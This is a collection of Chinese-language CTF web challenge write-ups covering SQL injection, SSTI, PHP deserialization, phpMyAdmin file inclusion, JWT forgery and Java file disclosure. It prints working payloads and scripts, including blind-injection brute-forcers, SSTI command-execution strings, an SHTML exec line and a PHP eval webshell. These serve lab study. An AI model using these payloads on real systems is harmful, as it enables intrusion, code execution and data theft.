flag{28fefbfe-67e9-48b3-8ea0-6d81295761c4}
flag{3d63b193-8a81-4b84-a57d-21e1fde7
```

### [GYCTF2020]Ezsqli

之前buu留了一堆sql没做，现在补的真折磨

直接是id，所以没有单引号，可以用`if` `^`或者直接上语句嘛。。

```sql
if(0,1,2) # 0 = false,所以是2
0^1
(ascii(substr(database(),1,1))>32)
```

然后`information_schema`被过滤了，就是常规的注表名和无列名注入了（直接猜列名为flag也可以

[ctf无列名注入小结](https://k1te.cn/2021/05/19/no-column-sql-injection/)

但是这题只能利用比较

```sql
(select * from f1ag_1s_h3r3_hhhhh)>(select 1,'A')
```

实在是不想写sql了，抄个脚本吧

```python
import requests
import time

url = "http://7afc95b2-c918-499c-a5d3-9637042a4bc2.node4.buuoj.cn:81/index.php"
payload1 = "if(ascii(substr((select(flag)from(f1ag_1s_h3r3_hhhhh)),"
payload2 = ",1))="
payload3 = ",1,2)"
name = ""
dic = "qwertyuioplkjhgfdsazxcvbnmQAZWSXEDCRFVTGBYHNUJMIKOLP1234567890-{}"
for i in range(1,50):
    for j in dic:
        payload = payload1+str(i)+payload2+str(ord(j))+payload3
        data = {'id':payload}
        time.sleep(0.05)
        s = requests.post(url,data=data).text
        if ("Nu1L" in s):
            name += j
            print(name)
            break
```

### [NCTF2019]SQLi

又是sql🤮

很经典的注入**payload**

```sql
username=\&passwd=||/**/1;%00
```

偷个脚本注密码登陆就行

> you_will_never_know7788990

## upload


### [WUSTCTF2020]CV Maker


注册之后有文件上传入口

就一个简单的文件头绕过，路径也已经给出来了

直接RCE就好


## 各种框架漏洞

### [GWCTF 2019]我有一个数据库

首先，进入网页


无任何可用信息

扫后台，发现robots.txt，里面有phpinfo.php

发现phpmyadmin，进入后为数据库的页面

发现版本为4.81

搜索phpmyadmin 4.81的相关信息，发现有文件包含的漏洞

详细漏洞及原理可见

https://www.jianshu.com/p/0d75017c154f

https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog

然后构造payload  

```html
phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../flag
```

直接获取flag

因为一般flag都是在根目录下，所以多用几个../来绕过


## 杂乱

### CTFshow-WEB12

进入


看源码


根据信息cmd，感觉为文件包含，输入phpinfo(); 报错..不知道为什么(<font color='blue green'>破案了，是因为带专校园网设了waf捏</font>)

看wp发现一个函数glob()

`glob()函数可以查找文件, 返回一个文件数组, 常配合通配符来遍历目录`

于是构造payload

`?cmd=print_r(glob(*))`

*指所有文件,  .txt则指txt文件

然后看到两个文件，接下来读取文件

`hightlight_file()可以使文件内容高亮显示, 常用于读取文件内容`

构造payload

`?cmd=highlight_file('903c00105c0141fd37ff47697e916e53616e33a72fb3774ab213b3e2a732f56f.php');`

得到flag


### [pwnthebox]网页读取器

进入题目


下载源代码，发现其允许访问的判断方式就是将你输入的URL的<font color='wathet blue'>@之后</font>的字段查找一下，如果都符合就可以访问

<font color='pink'>**#在URL里面具有截断的作用**</font>

所以你只需输入

`http://127.0.0.1/flag#@example.com`


### [ASIS 2019]Unicorn shop(×)


此题过于抽象，以至于不想写wp，什么时候有闲心了再写写吧


### [MRCTF2020]PYWebsite


buu两千解的题，竟然这么简单？？？
就是一个XFF伪造一下就好了
给了我往下做下去的动力🥰

顺便吐槽一下bp，经常出问题，反正也是抓下包，以后用postwoman代替算了


### [BJDCTF2020]EasySearch


打开网站输入，抓包都没什么发现，buu又不能扫目录
看了wp才知道当时放出来一个hint，访问 index.php.swp 即可获得源码

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

先进入if函数再说，使password的前六位为‘6d0bc1’，写个脚本爆破呗

```python
from hashlib import md5
for i in range(10000000):
    h = md5(f"{i}".encode()).hexdigest()
    if h[:6] == "6d0bc1":
        print(i)
        break
```

自己写的话只能猜是全数字了，有字母就不是一时半会能跑出来得了，可能要用别的工具
这题也确实是纯数字**2020666**

然后下一步就是写文件，文件写入到了`public/xxx.shtml`，抓包可以看见写到哪个文件里了


然后就去查一下shtml
发现shtml也能动态执行函数
`<!--#exec cmd="ls" -->`
这样就可以随意rce了，常规位置没找到flag，可以find一下再cat就行


### [BSidesCF 2019]Kookie


题目是**Kookie**，很像cookie，打开是一个登录框要我们以admin登录
cookie传一个`username=admin password=admin`，然后登录，登录成功得到flag


### [b01lers2020]Welcome to Earth


前面就是抓包各种找入口，没必要多说，最后一步有点意思

```js
function scramble(flag, key) {
  for (var i = 0; i < key.length; i++) {
    let n = key.charCodeAt(i) % flag.length;
    let temp = flag[i];
    flag[i] = flag[n];
    flag[n] = temp;
  }
  return flag;
}

function check_action() {
  var action = document.getElementById("action").value;
  var flag = ["{hey", "_boy", "aaaa", "s_im", "ck!}", "_baa", "aaaa", "pctf"];

  // TODO: unscramble function
}
```

这是js源码，看起来是要找key，但是flag的几个分量已给出，就是全排列

直接py全排列

```python
from itertools import permutations
flag = ["{hey", "_boy", "aaaa", "s_im", "ck!}", "_baa", "aaaa", "pctf"]
item = permutations(flag)
for i in item:
	k = ''.join(list(i))
	if k.startswith('pctf{hey_boys') and k[-1] == '}':
		print(k)
```

**permutations**就是对数组进行全排列，然后返回的是全排列之后的值，返回类型是一个object


### [SUCTF 2019]Pythonginx


编码题

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

审计一下就可知道要绕过前面两个`host == 'suctf.cc'`，最后再次经过处理(**换为UTF-8编码**)后得到`host == 'suctf.cc'`

```python
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass
def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
if __name__=="__main__":
    get_unicode()
```

直接用脚本爆破可以绕过的字符



结合题目**nginx**，访问**nginx**的配置文件

```python
file://suctf.ℭc/usr/local/nginx/conf/nginx.conf

返回
server { listen 80; location / { try_files $uri @app; } location @app { include uwsgi_params; uwsgi_pass unix:///tmp/uwsgi.sock; } location /static { alias /app/static; } # location /flag { # alias /usr/fffffflag; # } }
```

访问flag

```python
file://suctf.ℭc/usr/fffffflag
```


## unserialize

### [极客大挑战 2019]PHP


提示了源码泄露，直接`/www.zip`拿到源码

然后先看index.php

```php
include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
```

很明显是反序列化题目了
然看class.php

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

> 常用的内置方法：
>
> ```php
> __construct()：创建对象时初始化，当一个对象创建时被调用
> __wakeup() 使用unserialize时触发
> __unserialize() 使用unserialize时触发，有此函数就不调用__wakeup()
> __sleep() 使用serialize时触发
> __destruct()：结束时销毁对象，当一个对象销毁时被调用
> __invoke():当尝试以调用函数的方式调用一个对象时，该方法会被自动调用
> __get():在直接获取私有成员属性得时候，自动调用了这个__get()方法
> __toString():是快速获取对象的字符串信息的便捷方式
> __call()：在对象中调用一个不可访问方法时调用。
> __set()：设置私有属性值时调用
> __get()：访问私有属性值时调用(不存在的对象也可以，因为私有的你也不知道存不存在)
> __isset()：当对函数的私有成员或者不存在使用isset判断其是否存在时进入该函数
> __clone()：当利用clone克隆对象时调用
> ```

> 再说说**public** **private** **protected**的区别
>
> 在命令行输出时，三个没多大区别
>
> ```php
> O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
> O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
> O:4:"Name":2:{s:11:"*username";s:5:"admin";s:11:"*password";i:100;}
> ```
>
> 但是用coke runner输出时你会发现输出不完全，你再用url编码一下就能看到端倪
> 实际上就是**private**和**protected**输出内容中用`%00`保护了一下数据，两个也有些许不同

看完代码，就发现无论怎么构造，开始的`__wakeup`始终将`username`赋为`guest`
所以需要绕过`__wakeup`

**反序列化字符串，当属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行。**

依次可绕过此函数，最终的payload

```
O%3A4%3A"Name"%3A3%3A%7Bs%3A14%3A"%00Name%00username"%3Bs%3A5%3A"admin"%3Bs%3A14%3A"%00Name%00password"%3Bi%3A100%3B%7D
```


### [网鼎杯 2020 青龙组]AreUSerialz

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

`__construct`是创建时赋值，而反序列化是已经创建后的，所以不用管这个
`__destruct()`里用了强等于`===`字符串的2，只需要传int类型的就行
最重要的一点，在php大于7.1之后，对象内值的类型不再敏感，也就是说原本的`protected`类型改为`public`也不受影响，这点是因为`is_valid`只能输入ascii(32到125)的值，不能输入不可打印的值

第一种，直接查看flag

```php
<?php
class FileHandler {

    public $op=2;
    public $filename='flag.php';
    public $content;

}
echo(serialize(new FileHandler()));
```

第二种，尝试写入一句话木马

```php
<?php
class FileHandler {

    public $op=1;
    public $filename='1.php';
    public $content='<?php eval($_POST[1])?>';
}
echo(serialize(new FileHandler()));
```

然后发现权限不够，而写入`index.php`又不行，这种方法看来不行


### [安洵杯 2019]easy_serialize_php

#### 获取信息

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

序列化＋字符串替换，很明显的**反序列化字符串溢出漏洞**
首先要知道**_SESSION**是php存在的一个全局变量，也就是说它什么时候都存在，而**extract($_POST)**给了我们变量覆盖的机会
最关键的代码就是最后的读文件，所以我们还要搞清楚flag在哪，根据提示进入phpinfo
发现:


文件也得知了，那么现在最关键的就是读文件(**d0g3_f1ag.php**)了

#### 字符串逃逸分析

先构造出我们想得到的序列化后的字符串

```php
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";} //d0g3_f1ag.php
```

我们能改变的是**user**和**function**，很重要的一点就是这题是字符串替换是像变小的方向
而你要保证`function的值一定是show_image`，所以替换的字符一定在**user**上面，很容易分析(你想逃逸，就一定要构造一个足够长的字符串，而被替换后这些字符串都没了，但是要读取到相应的内容，读取后面的内容之后显然不能保证`function的值一定是show_image`)

所以目前的思路就是在user里面插入可被替换掉的字符来逃逸掉原本的function，而提交的function的内容包括新的function和新的img，这时最后面原本的那个img就丢弃了(因为反序列化函数已经检测到了三个数据了)
在本地测试，构造其实很容易完成

最后的payload

```php
GET:?f=show_image
POST: _SESSION[user]=phpphpflagflagflagflag&_SESSION[function]=;s:8:"function";s:10:"show_image";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
得到
    
<?php

$flag = 'flag in /d0g3_fllllllag';

?>
再
GET:?f=show_image
POST:_SESSION[user]=phpphpflagflagflagflag&_SESSION[function]=;s:8:"function";s:10:"show_image";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
得到flag
```


### <font color='green'>[MRCTF2020]Ezpop</font>


做的途中查魔术方法，构造链子用了很久，但最后还是看了WP(就差一步)，但是这题可能真正的改变我对反序列化的做法，让我的做法能更加优雅，思路也能更加清晰了

```php
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

打开就是清晰明了的源码(就喜欢这样的题)，有三个类和一个反序列化入口，很明显就是反序列化了
**Show**里面变量多而且有一个主动调用的方法**__wakeup**，而且还有**__construct**里有**echo**(**重点**)

**然后我就讲讲我开始的思路**
先看到了**Modifier**里面有**include**可以得到flag(flag的位置已给出嘛)，还有一个有嫌疑的地方就是**Test**里的无参单函数调用，但是这个好像是不可能拿到flag的
再查到**__invoke**魔术方法的作用之后，就很自然的知道可以在**Test**里的无参单函数调用这个方法了，再倒着进入**Show**
**Show**里面有个**__toString**是唯一可以通过这个来调用**Test**的，所以现在就是该想想怎么构造一个echo来echo**Show**，当时看了很久的这段代码，总是觉得只有这段可以利用了，但我的思路也就卡到这了

```php
echo 'Welcome to '.$this->source."<br>";
```

然后去看了WP就发现，**Show**可以在套一个**Show**啊，这样就完美的解决了问题！！！
最后的pop

```php
<?php
class Modifier {
    protected  $var='php://filter/read=convert.base64-encode/resource=flag.php';
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $p;
}
$a=new Show;
$a->source=new Show;
$a->source->str=new Test;
$a->source->str->p=new Modifier;
echo serialize($a);
```

然后就是写链子的代码，我之前喜欢直接在类里面 变量全部改为**public**改，这样做不仅思路很乱，在php小于7.1的版本就不能这样对变量的类型不敏感(这题就是最后生成payload的时候出了这个问题)
看了WP的链子就发现，这才真正的像个链子，很整洁，我那种直接在里面改的写甚至都不可能超过三个类...

这题真的很有意思，算是我挖链子的启蒙了吧


### [天翼杯 2021\]esay_eval


from NSSCTF
反序列化＋redis提权


## 框架


### [护网杯 2018]easy_tornado


三个url都点一下，在**flag.txt**里面找到了真正的**flag**所在，在**hint.txt**里面找到了**filehash**的构造
`md5(cookie_secret+md5(filename))`
接下来就是找到`cookie_secret`
随便输一个**filehash**


返回error，多了一个msg参数，貌似可控
输入`?msg={{1}}`返回1，证明存在SSTL
搜一下`tornado cookie_secret`，可知道**tornado**的**cookie_secret**在**hander.setting**里面

> RequestHandler中并没有settings这个属性，与RequestHandler关联的Application对象（Requestion.application）才有setting这个属性
>
> handler 指向RequestHandler
>
> 而RequestHandler.settings又指向self.application.settings
>
> 所有handler.settings就指向RequestHandler.application.settings了！

拿到`cookie_secret`，构造一下就能访问到flag了

### [GYCTF2020]EasyThinking

根据题目，是tp框架



随便输点东西报错，找该版本漏洞

[ThinkPHP6.0任意文件写](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP6/ThinkPHP6.0%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99.md)

将session改为`aaaaaaaaaaaaaaaaaaaaaaaaaaaa.php`，然后登陆账号，在搜索框写入一句话木马

然后访问`runtime/session/sess_aaaaaaaaaaaaaaaaaaaaaaaaaaaa.php`

连接蚁剑，利用插件**绕过disable_function**




## SSTL


### [BJDCTF2020]The mystery of ip


超简单的SSTL
进入网站，点击flag，有一个ip，hint提示的是为什么能知道你的ip(猜测就是后台获取呗)
那就用XFF伪造一下，发现可以改


然后就自然而然的想到了SSTL，虽然做这题时我没学过SSTL，只知道这个东西
但是输了一下`{{5*5}}`回显25
输入`{{phpinfo()}}`也成功回显
最后的payload
`{{system('cat /flag')}}`


### [CSCCTF 2019 Qual]FlaskLight


纯SSTI，直接上脚本

本题是**python2**

```python
import requests
import time

for i in range(0,300):
    payload="?search={{().__class__.__mro__[-1].__subclasses__()[%s].__init__['__glo'+'bals__'].keys()}}"%i
    url='http://a68e8c8e-08ff-4f46-844b-418344ca0ca2.node4.buuoj.cn:81/'
    time.sleep(0.06)
    print(url+payload)
    r=requests.get(url=url+payload)
    if "os" in r.text:
        #print(r.text)
        print(f'[+]:{i}')
        break
    print(f'[-]:{i}')
print('[+]done')
```

没拼接`__globals__`的时候，全部跑完都是500，然后手动试了一下，有globals就是500，那就稍微绕过一下

payload

```py
?search={{().__class__.__mro__[-1].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
```

也可以用类58的**<class 'warnings.catch_warnings'>**中的`__builtins__`中的**eval**(这个环境没内置os)，又或者利用`linecache`，都可以

但是有个最特别的，就是类258**<class 'subprocess.Popen'>**，他可以直接进行RCE

```python
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
```

### [RootersCTF2019]I_<3_Flask


进来就一个flask，源码 抓包什么都没发现
buu也不好扫目录，就去看了看**wp**

发现是**SSTI**，没给变量，要自己扫

```shell
xlccccc@xl-pc:~/Arjun/arjun$ python3 __main__.py -u http://76a629e0-3136-40c0-bf60-20511d531ee3.node4.buuoj.cn:81/ -m GET -c 150 -d 0.1
    _
   /_| _ '
  (  |/ /(//) v2.2.1
      _/

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[-] Target is misbehaving. Try the --stable swtich.
[!] No parameters were discovered.
```

然而我没扫到...(寄)

变量名是name，SSTI没过滤

```python
?name={{lipsum.__globals__.os.popen('cat flag.txt').read()}}
```


## JWT

### [HFCTF2020]EasyLogin


纯的JWT伪造，签名改为none，改了算法，就把`secretid改为[]`相当于空，末端签名空着就行


`eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEiLCJpYXQiOjE2NjI5MTA1MzZ9.`


### [watevrCTF-2019]Cookie Store


更纯的jwt伪造，直接改钱就完事


## SSRF


## java

### [RoarCTF 2019]Easy Java

有一个下载文件的路径

`http://4fadd6e7-d324-43f9-acfe-15ab5369e1cf.node4.buuoj.cn:81/Download?filename=help.docx`

但是GET传参没下载文件

试了下**POST**可以成功下载

查看是否存在`WEB-INF/web.xml`泄露

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

不太懂**java web**路径的安排方式

读`filename=WEB-INF/classes/com/wm/ctf/FlagController.class`，是hex文件

放进010拿到**flag**


